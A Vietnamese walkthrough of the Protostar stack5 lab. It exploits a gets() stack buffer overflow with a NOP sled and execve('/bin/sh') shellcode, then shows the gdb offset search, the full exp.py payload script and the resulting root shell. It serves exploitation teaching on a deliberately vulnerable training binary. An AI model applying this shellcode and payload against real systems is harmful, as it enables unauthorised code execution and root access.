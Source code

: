 # STACK FIVE

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

  * At this point in time, it might be easier to use someone elses shellcode
  
  * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  
  * remove the int3s once your shellcode is done.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FIVE` là thử thách không có hàm win(), đọc giới thiệu ta có thể thấy thử thách muốn chúng ta tìm hiểu về Shellcode và học cách khai thác ret2shellcode.

Shellcode là gì ?

```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```

Với người mới tìm hiểu và chưa có kiến thức nhiều về mã máy, thử thách gợi ý sẽ tốt hơn khi tại thời điểm này sử dụng `shellcode` của ai đó.

Tôi lấy nguồn từ trên mạng: <https://www.exploit-db.com/exploits/43716>

```
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Tiếp theo là tìm độ dài chuỗi có thể ghi đè eip.

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4' > txt
root@protostar:/opt/protostar/bin# gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < txt
Starting program: /opt/protostar/bin/stack5 < txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()       <-- EEEE Tiếp tục là 76
(gdb)
```
Vậy payload của chúng ta bây giờ sẽ trông như này:

`payload = "A" * 76 + return address + "\x90" * 100 + shellcode`

Các bạn nên đọc link tài liệu ở phần Documents để hiểu rõ hơn về `shellcode` và `"\x90" NOPs`.

Stack sẽ trông như sau khi bị ghi đè (Bố cục địa chỉ có thể khác trên máy bạn):

```
(gdb) x/100wx $esp
0xbffffc10:     0xbffffc20      0xb7ec6165      0xbffffc28      0xb7eada75
0xbffffc20:     0x41414141      0x41414141      0x41414141      0x41414141      <-- padding bắt đầu từ 0x41414141.
0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0xxxxxxxxx       <-- Vị trí của Return address
0xbffffc70:     0x90909090      0x90909090      0x90909090      0x90909090           Ở đây được tính toán = 0xbffffc6c + 0x50 = 0xbffffcbc để trả về vào giữa dãy NOPs.
0xbffffc80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc90:     0x90909090      0x90909090      0x90909090      0x90909090      <-- sau ret sẽ là chuỗi '\x90' vì sẽ có sự biến động khi chạy và debug, 
0xbffffca0:     0x90909090      0x90909090      0x90909090      0x90909090          nên sẽ không thể tính chính xác vị trí của shellcode mà 
0xbffffcb0:     0x90909090      0x90909090      0x90909090      0x90909090          phải ước lượng và trượt vào nó qua NOPs để đến shell.
0xbffffcc0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcd0:     0x90909090      0x50c031cc      0x732f2f68      0x622f6868        <-- Shellcode start: 0xbffffcd4,
0xbffffce0:     0xe3896e69      0xc289c189      0x80cd0bb0      0xcd40c031             sau chuỗi NOPs sẽ là shellcode do hệ thống sẽ bỏ qua NOPs và tiếp tục thực thi.
0xbffffcf0:     0x08040080      0x00000001      0xbffffd14      0x080483f0
0xbffffd00:     0x080483e0      0xb7ff1040      0xbffffd0c      0xb7fff8f8
0xbffffd10:     0x00000001      0xbffffe20      0x00000000      0xbffffe3a
0xbffffd20:     0xbffffe4a      0xbffffe5e      0xbffffe80      0xbffffe93
0xbffffd30:     0xbffffe9d      0xbffffea9      0xbffffeeb      0xbffffeff
0xbffffd40:     0xbfffff0e      0xbfffff25      0xbfffff36      0xbfffff3f
0xbffffd50:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffd60:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffd70:     0xb7fe2000      0x00000010      0x0f8bfbff      0x00000006
0xbffffd80:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffd90:     0x08048034      0x00000004      0x00000020      0x00000005
```
Kết quả dừng trước int3 '\xcc' -> bỏ int3 thì shellcode được thực thi.

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcd5 in ?? ()
(gdb)
```
Từ bài này chúng ta sẽ bắt đầu viết file payload exp.py 

File exp.py

``` 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 76 + "\xbc\xfc\xff\xbf" + "\x90" * 100 + shellcode
print payload
```

Bước khai thác cuối cùng

```exp.py
root@protostar:/opt/protostar/bin$ $(python exp.py ; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

## Documents

<https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html>

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>



